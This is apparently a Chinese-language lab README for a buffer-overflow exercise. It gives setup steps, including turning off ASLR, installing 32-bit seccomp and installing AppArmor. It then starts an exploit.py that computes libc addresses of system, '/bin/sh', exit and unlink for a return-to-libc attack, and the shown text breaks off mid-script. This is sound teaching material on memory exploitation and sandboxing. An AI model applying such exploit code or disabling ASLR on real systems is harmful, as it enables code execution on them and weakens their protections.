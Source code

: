 # 0 环境配置

## 0.1 关闭ASLR

```bash
# 关闭 ASLR
sudo sysctl -w kernel.randomize_va_space=0
```
PS：重启后ASLR需要重新运行命令关闭

## 0.2 安装seccomp

```bash
## 安装 i386 架构支持
# 使用源 deb http://http.kali.org/kali kali-rolling main contrib non-free
sudo vim /etc/apt/sources.list
sudo dpkg --add-architecture i386
sudo apt update
sudo apt install libseccomp-dev:i386 seccomp:i386
```

## 0.3 AppArmor安装

```bash
sudo apt install apparmor-profiles apparmor-utils
```

## 0.4 exploit脚本

见[exploit.py](./src/exploit.py)

```python
#!/usr/bin/python
import sys
import socket
import traceback
import struct
import time
import os.path
import binascii
from pwn import *

# libc base address
# ASLR shoud be off, so that libc's base address will not change untill next reboot 
# you can use "ldd ./program" to check the libc base address
base_addr = 0xf7c00000

# all of the offsets of functions (strings) inside libc won't change much (sometimes changed, so check is needed) .
# to get the offset of a funtion, you can use:
##  readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " system"
# to get "/bin/sh":
## ropper --file /lib/i386-linux-gnu/libc.so.6 --string "/bin/sh"

# system
sys_addr = base_addr + 0x0004c800 
# /bin/sh
sh_addr = base_addr + 0x001b5faa
# exit
ex_addr = base_addr + 0x0003bc90
# unlink
ul_addr = base_addr + 0x0010cd80
# dead
```